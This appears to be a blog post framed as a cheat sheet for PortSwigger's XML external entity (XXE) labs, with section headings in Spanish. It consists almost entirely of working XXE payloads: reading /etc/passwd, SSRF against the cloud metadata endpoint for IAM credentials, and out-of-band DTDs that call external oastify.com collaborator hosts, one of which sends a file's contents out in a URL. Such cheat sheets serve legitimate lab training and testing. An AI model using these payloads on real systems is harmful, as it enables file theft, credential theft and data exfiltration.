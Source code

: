 ```yaml
---
layout: single
title: XXE - PortSwigger
excerpt: "All XML external entity labs of PortSwigger with additional CheetSheet."
date: 2025-08-16
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - XXE
  - XXE CheetSheet
---
```



## XXE CheetSheet

- Insertar entidad

```xml
<!DOCTYPE foo [<!ENTITY myName "testing123">]>
<test>&myName;</test>
```

- Ver archivos internos

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<test>&myFile;</test>
```

- SSRF

```xml
<!DOCTYPE foo [<!ENTITY myRequest SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<test>&myRequest;</test>
```

- Entidad de parámetro

```dtd
<!DOCTYPE foo [<!ENTITY % myReq SYSTEM "https://p6wtrgtwt0exlfffdedxknygv710pqdf.oastify.com"> %myReq;]>
```

- DTD para leer archivos

```dtd
<!ENTITY % myFile SYSTEM "file:///etc/hostname">
<!ENTITY % first "<!ENTITY &#x25; second SYSTEM 'https://isemd9fpft0q7818z7zq6gk9h0ntblza.oastify.com/?data=%myFile;'>">

%first;
%second;
```
